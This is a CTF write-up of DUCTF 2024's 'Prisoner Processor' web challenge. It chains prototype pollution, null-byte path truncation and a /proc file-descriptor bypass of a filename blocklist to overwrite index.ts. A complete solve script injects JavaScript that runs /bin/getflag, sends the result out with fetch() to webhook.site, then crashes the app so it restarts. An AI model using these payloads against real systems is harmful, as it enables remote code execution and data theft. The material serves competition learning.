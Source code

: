 ```yaml
---
ai_date: '2025-04-27 05:15:50'
ai_summary: Prototype pollution vulnerability allows arbitrary file name manipulation
  and overwriting of 'index.ts', exploiting it to replace with a malicious YAML file
  and crash the script for restart.
ai_tags:
- prototype-pollution
- file-name-manipulation
- code-injection
created: 2024-07-07T02:38
description: Hijacking the main application
points: 325
solves: 17
title: Prisoner Processor
updated: 2024-07-07T21:46
---
```


## Analysis

```ts [index.ts]
const getSignedData = (data: any): any => {
    const signedParams: any = {};
    for (const param in data) {
        if (param.startsWith(SIGNED_PREFIX)) {
            const keyName = param.slice(SIGNED_PREFIX.length);
            signedParams[keyName] = data[param];
        }
    }
    return signedParams;
};
```

- This is vulnerable to prototype pollution.
- Only parameters starting with `signed.` are checked for signature.

```ts
const outputPrefix = z.string().parse(signedData.outputPrefix ?? "prisoner");
const outputFile = `${outputPrefix}-${randomBytes(8).toString("hex")}.yaml`;
```

- `outputPrefix` is not defined anywhere, it is our target for pollution.

```ts
const json = JSON.parse(readFileSync(fullPath).toString());
prisoners.push({
    data: json,
    signature: getSignature(getSignedData(json))
});
```

- We can use the examples to build our payload upon.

```sh
#!/bin/bash

cd /app;
# Loop in case the app crashes for some reason ¯\_(ツ)_/¯
while :; do
    for i in $(seq 1 5); do
        bun run start;
        sleep 1;
    done
    # Okay for some reason something really goofed up...
    # Restoring from backup
    cp -r /home/bun/backup/app/* /app;
done
```

- This is inviting a crush.

## Attack

### Custom File Name

By polluting `outputPrefix` we can change the output file.

```python
d['data']['signed.__proto__'] = {
    "outputPrefix": "hewwo\u0000"
}
# {"msg":"hewwo\u0000-5595316e6c23eddd.yaml"}
```

It worked, use null terminator to end the file path prematurely to get rid of the suffix.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720335471/2024/07/a83e996f9b627e9eb808b892a746556f.png)

### Overwrite index.ts

```ts
const BANNED_STRINGS = [
    "app", "src", ".ts", "node", "package", "bun", "home", "etc", "usr", "opt", "tmp", "index", ".sh"
];
```

Everything is great but how do we escape the blacklist?

> My teammate @spipm, was the one who came up with the exact execution of the bypass..
> I got stuck playing with path traversal.

The solution is with proc.

```
"outputPrefix": "../../proc/9/fd/3\u0000"
```

You can find `/proc` targets via the following command.

```sh
$ find /proc -type l -ls | grep index.ts
find: '/proc/tty/driver': Permission denied
   5107188      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/9/fd/3 -> /app/src/index.ts
   5090100      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/18/fd/3 -> /app/src/index.ts
   5090164      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/19/fd/3 -> /app/src/index.ts
   5090228      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/20/fd/3 -> /app/src/index.ts
   5090292      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/21/fd/3 -> /app/src/index.ts
   5106740      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/22/fd/3 -> /app/src/index.ts
   5106804      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/23/fd/3 -> /app/src/index.ts
   5106868      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/24/fd/3 -> /app/src/index.ts
   5106932      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/26/fd/3 -> /app/src/index.ts
   5106996      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/28/fd/3 -> /app/src/index.ts
   5107060      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/30/fd/3 -> /app/src/index.ts
   5107124      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/31/fd/3 -> /app/src/index.ts
   5106453      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/fd/3 -> /app/src/index.ts
find: '/proc/91/task/91/fd/5': No such file or directory
find: '/proc/91/fd/6': No such file or directory
```

### Payload

```python
{
    'fetch("https://webhook.site?w=" + (await require("bun").$`/bin/getflag`.text()));/*': "",
    'signed.name': 'jeff',
    'signed.animalType': 'emu',
    'signed.age': 12,
    'signed.crime': 'assault',
    'signed.description': 'clotheslined someone with their neck',
    'signed.start': '2024-03-02T10:45:01Z',
    'signed.release': '2054-03-02T10:45:01Z',
    'signed.__proto__': {
        "outputPrefix": "../../proc/9/fd/3\u0000"
    },
    "payload": "*///"
}
```

- We replace `index.ts` with our generated yml file.
- For our yml to run as js, we use block comments to comment out everything in-between and the last quote.
- Send the flag to our webhook.
- Crash the script so it will be restarted by `start.sh`.

## Solve Script

```python [solve.py]
import requests
s = requests.Session()
target = "https://web-prisoner-processor-3bdc15af869668aa.2024.ductf.dev"
# target = "http://localhost:1337"
d = s.get(f"{target}/examples")
sign = d.json()['examples'][0]['signature']

d = {'data': {
    'fetch("https://webhook.site?w=" + (await require("bun").$`/bin/getflag`.text()));/*': "",
    'signed.name': 'jeff',
    'signed.animalType': 'emu',
    'signed.age': 12,
    'signed.crime': 'assault',
    'signed.description': 'clotheslined someone with their neck',
    'signed.start': '2024-03-02T10:45:01Z',
    'signed.release': '2054-03-02T10:45:01Z',
    'signed.__proto__': {
        "outputPrefix": "../../proc/9/fd/3\u0000"
    },
    "payload": "*///"
}, 'signature': sign}

r = s.post(f"{target}/convert-to-yaml", json=d)
print(r.text)
d['data']['signed.__proto__']['outputPrefix'] = "../../../ap\\p/sr\\c/owo-crusher-owo\u0000"
r = s.post(f"{target}/convert-to-yaml", json=d)
print(r.text)
# {"msg":"../../proc/9/fd/3\u0000-f8af8a2374745bb5.yaml"}
# {"msg":"../../../ap\\p/sr\\c/owo-crusher-owo\u0000-afead8be95834c3e.yaml"}

# DUCTF{bUnBuNbUNbVN_hOn0_tH15_aPp_i5_d0n3!!!one1!!!!}
```

Again, thanks to my teammate @spipm.
The above solve script is heavily inspired by his.
The halting payload was by my own findings though, (you can probably guess why).